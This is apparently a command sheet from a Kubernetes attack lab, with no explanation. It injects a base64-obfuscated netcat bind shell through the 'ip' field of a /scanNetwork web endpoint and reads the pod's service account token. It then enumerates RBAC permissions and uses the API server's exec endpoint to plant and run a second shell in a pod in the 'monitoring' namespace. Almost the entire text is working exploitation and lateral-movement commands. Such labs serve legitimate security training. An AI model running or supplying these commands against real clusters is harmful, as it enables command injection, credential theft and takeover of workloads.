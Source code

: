kubectl apply -f .

kubectl get pods -A -w

export DEV_POD=app-deployment-788f48bd99-6gvj4
export MONITORING_POD=monitoring-deployment-547dfd684d-d58wl

kubectl port-forward $DEV_POD -n dev 3000:8080

kubectl port-forward $DEV_POD -n dev 9999:9999

127.0.0.1

; cat ../var/run/secrets/kubernetes.io/serviceaccount/token



curl --path-as-is -kis -X 'POST' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-binary 'ip=; echo cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWxwIDk5OTkgPiAvdG1wL2Y | base64 -d | tee /tmp/rev.sh; sh /tmp/rev.sh' \
    'http://localhost:3000/scanNetwork' &

nc 127.0.0.1 9999

script -qc /bin/bash /dev/null

APISERVER=https://kubernetes.default.svc \
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount \
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace) \
TOKEN=$(cat ${SERVICEACCOUNT}/token) \
CACERT=${SERVICEACCOUNT}/ca.crt \

### Can i list pods in the monitoring namespace?
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" \
     -X POST ${APISERVER}/apis/authorization.k8s.io/v1/selfsubjectaccessreviews \
     -s -H 'Content-Type: application/json' \
     -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectAccessReview","metadata":{"namespace":"dev"},"spec":{"resourceAttributes":{"namespace":"monitoring","verb":"list","resource":"pods"}}}'


### What can I do inside namespace monitoring ?
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" \
     -X POST ${APISERVER}/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
     -s -H 'Content-Type: application/json' \
     -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"monitoring"}}'

export MONITORING_POD=



curl --cacert ${CACERT} \
     --header "Authorization: Bearer ${TOKEN}" \
     -X GET "${APISERVER}/api/v1/namespaces/monitoring/pods/$MONITORING_POD/exec?command=sh&command=-c&command=echo%20cm0gLXJmIC90bXAveDsgbWtmaWZvIC90bXAveDsgY2F0IC90bXAveCB8IC9iaW4vc2ggLWkgMj4mMSB8IG5jIC1scCA5OTk5ID4gL3RtcC94%20|%20base64%20-d%20|tee%20/tmp/rev.sh&tty=false&stdin=true&stderr=true&stdout=true" \
     -s \
     -H 'Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==' \
     -H 'Sec-WebSocket-Version: 13' \
     -H 'connection: upgrade' \
     -H 'upgrade: websocket' \
     --http1.1

curl --cacert ${CACERT} \
     --header "Authorization: Bearer ${TOKEN}" \
     -X GET "${APISERVER}/api/v1/namespaces/monitoring/pods/$MONITORING_POD/exec?command=sh&command=-c&command=/bin/sh%20/tmp/rev.sh&tty=false&stdin=true&stderr=true&stdout=true" \
     -s \
     -H 'Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==' \
     -H 'Sec-WebSocket-Version: 13' \
     -H 'connection: upgrade' \
     -H 'upgrade: websocket' \
     --http1.1 \
     &

curl --cacert ${CACERT} \
     --header "Authorization: Bearer ${TOKEN}" \
     -X GET \
     -s \
     "${APISERVER}/api/v1/namespaces/monitoring/pods/$MONITORING_POD" \
     | grep ip

nc $POD_IP 9999

script -qc /bin/bash /dev/null


APISERVER=https://kubernetes.default.svc \
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount \
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace) \
TOKEN=$(cat ${SERVICEACCOUNT}/token) \
CACERT=${SERVICEACCOUNT}/ca.crt \

### What can I do inside namespace monitoring
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" \
     -X POST ${APISERVER}/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
     -s -H 'Content-Type: application/json' \
     -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"monitoring"}}'

### What can I do inside namespace dev
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" \
     -X POST ${APISERVER}/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
     -s -H 'Content-Type: application/json' \
     -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dev"}}'



